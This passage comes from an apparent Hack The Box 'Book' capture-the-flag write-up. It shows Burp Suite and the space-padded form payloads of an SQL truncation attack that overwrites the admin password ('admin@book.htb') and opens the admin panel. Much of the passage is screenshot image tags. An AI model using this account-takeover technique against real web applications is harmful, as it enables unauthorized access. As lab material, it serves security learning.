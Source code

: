 ```bash
# http://10.10.10.176/index.php
# admin   admin@book.htb  admin123

burpsuite &>/dev/null & disown
# name=admin+.&email=admin%40book.htb&password=admin123
# ....
# name=admin++++++++++++++++++.&email=admin%40book.htb&password=admin123

# name=admin&email=admin%40book.htb+.&password=admin123
# ...
# name=admin&email=admin%40book.htb++++++.&password=admin123
# http://10.10.10.176/admin/
```

<br />
<img src="{{ site.img_path }}/book_writeup/Book_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/book_writeup/Book_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I'm going to put my mentality in **Try Harder** mode and retry the attack, I must have made some mistake. I start my tests again from the beginning using the **email** field, inserting one blank space at a time, but I also find in the body of the response some **clues** about the **maximum allowed length** of the values of the **name** and **email** fields. Finally I achieve my goal of updating the **admin** user password and this way I can now access the **Admin Panel**.

```html
# name=admin&email=admin@book.htb+++++++.&password=admin123
# http://10.10.10.176/admin/
```

<br />
<img src="{{ site.img_path }}/book_writeup/Book_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
